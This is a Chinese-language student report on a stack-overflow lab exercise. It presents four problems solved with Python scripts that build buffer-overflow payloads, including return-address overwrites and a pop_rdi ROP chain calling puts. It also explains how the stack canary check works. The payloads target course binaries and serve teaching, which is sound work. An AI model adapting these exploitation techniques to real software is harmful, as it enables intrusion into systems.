




# 栈溢出攻击实验报告

## 题目解决思路

### Problem 1:

#### 分析

通过分析汇编代码，发现func函数存在明显的缓冲区溢出的问题：

strcpy将输入复制到rbp-0x8的位置且只分配了8字节。strcpy不检查长度，存在缓冲区溢出。同时程序中存在func1输出"Yes!I like ICS!"

#### 解决方案

需要构造payload覆盖返回地址为func1的地址，具体结构为：8字节缓冲区+8字节覆盖rbp+8字节覆盖返回地址0x401216

```python
padding=b"A"*16
func1_address=(0x401216).to_bytes(8,'little')#小端序fnuc1的地址
payload=padding+func1_address
with open("ans1.txt","wb") as f:
    f.write(payload)
```

Payload结构：[AAAA AAAA AAAA AAAA] [16 12 40 00 00 00 00 00]

#### 结果



---

### Problem 2:

#### 分析

分析发现本题启用了NX保护，因此需要借助程序现有的代码片段。

分析发现程序中存在pop_rdi，以ret结尾，可以进行辅助跳转。而且func2函数需要参数rdi==0x3f8才会输出成功消息

#### 解决方案

```python
#缓冲区位于rbp-0x8，我们需要16字节的填充，其中8字节填充+8字节覆盖rbp
padding=b"A"*16
pop_rdi=(0x4012c7).to_bytes(8,'little')#poprdi那一段的地址
x=(0x3f8).to_bytes(8,'little')#通过问题参数
func2_address=(0x401216).to_bytes(8,'little')#func2地址

payload=padding+pop_rdi+x+func2_address

with open("ans2.txt", "wb") as f:
    f.write(payload)
```

利用溢出攻击将返回地址覆盖为pop_rdi的地址，程序返回时跳转，将栈上0x3f8传给rdi，随后利用这一段带有的ret跳转至func2，而rdi满足函数要求所以成功。

#### 结果



---

### Problem 3:

#### 分析
以下分析以及策略是在关闭内核全局栈随机化下进行的。

分析发现，程序在func中保存了栈指针到全局变量saved_rsp。要求需输出114才能通过。可以构造payload来调用puts进行输出。

通过计算，可以知道payload起始位置位于saved_rsp+0x10

#### 解决方案

```python
base=saved_rsp+0x10#运行时手动查询gdb
str_p=(base+8).to_bytes(8,'little')#指向字符串的指针
str=(0x00000000343131).to_bytes(8,'little')
padding=b"A"*16
torbp=(base+8).to_bytes(8,'little')#[rbp-8]指向字符串指针
mov_addr=(0x4012e6).to_bytes(8,'little')
puts_addr=(0x4010b0).to_bytes(8,'little')
exit_addr=(0x401120).to_bytes(8,'little')

payload=str_p+str+padding+torbp+mov_addr+puts_addr+exit_addr
```

所以整个过程就是利用栈溢出覆盖栈底指针，程序跳转到辅助代码读取字符串地址作为参数，最终让puts打印出 114。

#### 结果



---

### Problem 4:

#### 分析

通过分析发现由于canary位于返回地址之前，任何覆盖返回地址的栈溢出都会破坏canary

#### 解决方案

题目提示不需要写代码，于是可以分析程序逻辑：
程序先检查输入值的无符号形式是否≥-2的无符号值，也就是是否≥4294967294，说明答案只能是-2或者-1。接着执行循环：一个计数器从0开始递增，同时rbp-0x18位置的值不断减1直到计数器≥-2。也就是让rbp-0x18=输入+2。最后检查两个条件：rbp-0x18=1。且原始输入rbp-0x0c=-1。代入计算发现-1可以通关。





#### canary保护

| 地址 | 指令 | 说明 |
|------|------|------|
| 0x136c | `mov %fs:0x28,%rax` | 读canary |
| 0x1375 | `mov %rax,-0x8(%rbp)` | 保存canary到栈上 |
| 0x140a | `mov -0x8(%rbp),%rax` | 返回前读取保存的canary |
| 0x140e | `sub %fs:0x28,%rax` | 与原始canary比较 |
| 0x1417 | `je 0x141e` | 相等正常返回 |
| 0x1419 | `call __stack_chk_fail` | 不相等终止程序 |

---

## 思考与总结

本次实验深入学习了栈溢出攻击的原理和防护机制：

1.栈溢出：覆盖返回地址改变程序。

2.ROP：当栈不可执行，需要利用程序中已有的代码片段攻击。

3.栈地址：有ASLR时，需要泄露栈地址或使用相对偏移。

4.canary：防御简单的栈溢出攻击。但是需要配合其他保护才能提供完整的防护。

## 参考资料

1.CTF Wiki - Stack Overflow: https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/
2.CSAPP
3.Gemini
4.Claude Code